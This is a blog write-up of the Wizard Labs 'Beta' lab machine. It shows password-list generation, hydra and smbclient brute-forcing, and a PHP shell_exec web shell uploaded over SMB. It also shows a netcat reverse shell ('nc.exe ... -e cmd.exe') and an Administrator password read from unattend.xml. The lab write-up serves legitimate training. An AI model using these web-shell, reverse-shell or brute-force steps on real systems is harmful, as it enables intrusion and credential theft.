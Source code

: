 ```yaml
---
id: 735
title: 'Wizard Labs &#8211; Beta'
date: 2019-04-17T20:47:38+01:00
author: rowbot
layout: post
guid: http://offsecnewbie.com/?p=735
permalink: /2019/04/17/wizard-labs-beta/
image: /wp-content/uploads/2019/04/beta-174x250.png
categories:
  - Wizard Labs
---
```

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-27.png?w=680" alt="" class="wp-image-755" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-27.png?w=178 178w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-27.png?resize=156%2C300 156w" sizes="(max-width: 178px) 100vw, 178px" data-recalc-dims="1" /></figure>
</div>

This box lead me down a rabbit hole&#8230;damn you H4d3s. I spent a lot of time bruteforcing web panel passwords. I had bother scanning the box, nmap hung a lot of the time but eventually I got a full scan done.

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-28.png?w=680" alt="" class="wp-image-756" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-28.png?w=969 969w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-28.png?resize=300%2C235 300w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-28.png?resize=768%2C602 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

I tried to connect to the telnet service but got kicked out 

Port 80 gave a website with no directories.

<pre class="wp-block-preformatted">No more connections are allowed to telnet server. Please try again later.Connection closed by foreign host.
</pre>

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-29.png?w=680" alt="" class="wp-image-757" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-29.png?w=691 691w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-29.png?resize=300%2C153 300w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

Port 3000 gave another website that revealed some user information and passwords.<figure class="wp-block-image">

<img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-22.png?w=680" alt="" class="wp-image-737" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-22.png?w=788 788w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-22.png?resize=300%2C98 300w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-22.png?resize=768%2C251 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /> </figure> 

python code is as follows which revealed a user russel and passwords.

<pre class="wp-block-preformatted"><br />"""<br /> Just a secure password generator made by Russel T !! Used to generate passwords  mostly for file sharing protocols <br /> Contact:russel@beta.corp<br /> """<br /> import random<br /> import sys<br /> menu = """<br /> <em>_                      _</em> <br /> / <em>\   / </em> __ _ <strong>_ </strong><em>   / </em> ___  /\ \ \<br /> \ \ / _ \/ <strong>|/ /<em>)/ </em>` / </strong>/ <strong>| / /<em>\/ </em> \/  \/ / <em>\ \  </em></strong><em>/ (<strong>/ <em>/ (</em>| __ __ \/ /<em>\  / /\  / <br /> _</em>/___|___\/    __,<em>|</em></strong>/<strong><em>/_</em></strong>/__</em>_\ \/  <br />                                 Beta Corp<br /> """<br /> words = ['lollip0p','rain','summer','little','honey']<br /> end  = [1,2,3,4,5]<br /> print(menu)<br /> word = random.choice(words)<br /> num = random.choice(end)<br /> password = (word)+(str(num))<br /> print("the secure password is : {}".format(password)) </pre>

In order to generate all the random passwords I created this script

<pre class="wp-block-preformatted"><font color="#C4A000">for</font> i in {1..100}; <font color="#C4A000">do</font> <font color="#4E9A06">python</font> <u style="text-decoration-style:single">passgen.py</u> | <font color="#4E9A06">grep</font> <font color="#C4A000">"the secure password is"</font> &gt;&gt; <u style="text-decoration-style:single">out.pass</u> | <font color="#4E9A06">cut</font> -d<font color="#C4A000">" "</font> -f6 &gt;&gt; <u style="text-decoration-style:single">list.txt</u> ;<font color="#C4A000">done</font> </pre>

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-23.png?w=680" alt="" class="wp-image-739" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-23.png?w=155 155w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-23.png?resize=105%2C300 105w" sizes="(max-width: 155px) 100vw, 155px" data-recalc-dims="1" /></figure>
</div>

picking the user russel@beta.corp and also russel and the list.txt I used hydra to try to bruteforce the login at the /user login panel and the /admin login panel

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-30.png?w=680" alt="" class="wp-image-784" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-30.png?w=686 686w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-30.png?resize=300%2C145 300w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

<pre><font color="#4E9A06">hydra</font> -l russel@beta.corp -P <u style="text-decoration-style:single">list.txt</u> 10.1.1.15 http-post-form <font color="#C4A000">"/user/login:username=^USER^&password=^PASS^@Login=Login:Username"</font> -V -s 3000
</pre>

<pre class="wp-block-preformatted">[ATTEMPT] target 10.1.1.15 - login "russel" - pass "summer3" - 446 of 450 [child 5] (0/0)
[ATTEMPT] target 10.1.1.15 - login "russel" - pass "honey2" - 447 of 450 [child 1] (0/0)
[ATTEMPT] target 10.1.1.15 - login "russel" - pass "honey2" - 448 of 450 [child 6] (0/0)
[ATTEMPT] target 10.1.1.15 - login "russel" - pass "summer2" - 449 of 450 [child 2] (0/0)
[ATTEMPT] target 10.1.1.15 - login "russel" - pass "lollip0p4" - 450 of 450 [child 7] (0/0)
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-17 12:18:14
<span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#CC0000">✘ </font></span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> 
</pre>

I realised there was a better way to generate the passwords

<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#CC0000">✘ </font></span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#4E9A06">cat</font> <u style="text-decoration-style:single">pass1</u>                
lollip0p
rain
summer
little
honey
<span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#CC0000">✘ </font></span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#C4A000">for</font> i in <font color="#75507B">$(</font><font color="#4E9A06">cat</font> <u style="text-decoration-style:single">pass1</u><font color="#75507B">)</font>; <font color="#C4A000">do</font> <font color="#4E9A06">echo</font> $i{1..5} &gt;&gt; <u style="text-decoration-style:single">output</u>;<font color="#C4A000">done</font>
<span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#4E9A06">cat</font> <u style="text-decoration-style:single">output</u> 
lollip0p1 lollip0p2 lollip0p3 lollip0p4 lollip0p5
rain1 rain2 rain3 rain4 rain5
summer1 summer2 summer3 summer4 summer5
little1 little2 little3 little4 little5
honey1 honey2 honey3 honey4 honey5
<span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> 
</pre>

I took a step back and looked at the nmap scan results and seem there were SMB ports open. enum4linux and smbmap revealed nothing but nmap came back and revealed 3 shares that require passwords to access.

<pre><font color="#4E9A06">nmap</font> $ip -p 445,139 <font color="#C4A000">"--script=smb-enum*"
Host script results:
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: &lt;blank&gt;
|   \\10.1.1.15\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: &lt;none&gt;
|   \\10.1.1.15\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: &lt;none&gt;
|   \\10.1.1.15\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: READ
</font>
</pre>

I used the following script to try all passwords combos

<pre class="wp-block-preformatted"><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#CC0000">✘ </font></span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#C4A000">for</font> i in <font color="#75507B">$(</font><font color="#4E9A06">cat</font> <u style="text-decoration-style:single">output</u><font color="#75507B">)</font>; <font color="#C4A000">do</font> <font color="#4E9A06">echo</font> $i &&  <font color="#4E9A06">smbclient</font> //$ip/admin$ -U russel $i; <font color="#C4A000">done</font>
...
session setup failed: NT_STATUS_LOGON_FAILURE
little5
Try "help" to get a list of possible commands.
smb: \&gt; dir
  .                                   D        0  Sun Sep 23 14:34:50 2018
  ..                                  D        0  Sun Sep 23 14:34:50 2018
  addins                              D        0  Tue Jul 14 05:52:31 2009
  AppCompat                           D        0  Tue Jul 14 03:37:05 2009
  AppPatch                            D        0  Tue Apr 12 03:16:01 2011
  assembly                          DSR        0  Sat Sep 22 20:55:40 2018
</pre>

username = russel  
password = little5

Using the put command in smb I added a shell exec file called webby.php and put it into c:\xampp\htdocs so I could access it.

webby.php contains  
<?php echo shell\_exec($\_GET[&#8216;cmd&#8217;]); ?> 

I get command execution

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-24.png?w=680" alt="" class="wp-image-751" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-24.png?w=610 610w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-24.png?resize=300%2C83 300w" sizes="(max-width: 610px) 100vw, 610px" data-recalc-dims="1" /></figure>
</div>

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-25.png?w=680" alt="" class="wp-image-752" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-25.png?w=718 718w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-25.png?resize=300%2C142 300w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

To get a nc shell I ran the following with a listener &#8211; nc -lnvp 443 :

http://10.1.1.15/webby.php?cmd=nc.exe 10.253.0.255 443 -e cmd.exe

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-26.png?w=680" alt="" class="wp-image-753" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-26.png?w=616 616w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-26.png?resize=300%2C62 300w" sizes="(max-width: 616px) 100vw, 616px" data-recalc-dims="1" /></figure>
</div>

Running through my [Win Priv](https://guide.offsecnewbie.com/privilege-escalation/windows-pe) checks reveals the admin password

<pre>C:\xampp\htdocs&gt;type c:\unattend.xml
type c:\unattend.xml
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;unattend xmlns="urn:schemas-microsoft-com:unattend"&gt;
    &lt;settings pass="windowsPE"&gt;
        &lt;component name="Microsoft-Windows-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64"&gt;
            &lt;WindowsDeploymentServices&gt;
                &lt;Login&gt;
                    &lt;WillShowUI&gt;OnError&lt;/WillShowUI&gt;
                    &lt;Credentials&gt;
                        &lt;Username&gt;Administrator&lt;/Username&gt;
                        &lt;Domain&gt;beta&lt;/Domain&gt;
                        &lt;mark>&lt;Password&gt;loveLyp4ssw0rd*!&lt;/Password&gt;&lt;/mark>
                    &lt;/Credentials&gt;
</pre>

Using smbclient logging in as Administrator I was able to capture the root flag

<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/beta </font></span><font color="#3465A4"></font> <font color="#4E9A06">smbclient</font> //$ip/C$ -U administrator
Enter WORKGROUP\administrator';s password: 
</pre>

<pre>smb: \Users\Administrator\Desktop\&gt; mget root.txt 
Get file root.txt? y
getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
</pre>

Fun box which felt quite OSCP like, especially when it had me down a rabbit hole of the Gogs web application.

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-31.png?w=680" alt="" class="wp-image-798" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-31.png?w=349 349w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-31.png?resize=300%2C52 300w" sizes="(max-width: 349px) 100vw, 349px" data-recalc-dims="1" /><figcaption>f1f95d42573c2f3940bfae6fdba05e5a</figcaption></figure>
</div>

I tried to use the &#8220;runas&#8221; command to start a nc reverse shell as administrator but couldn&#8217;t get it working. If you did, let me know how you did it.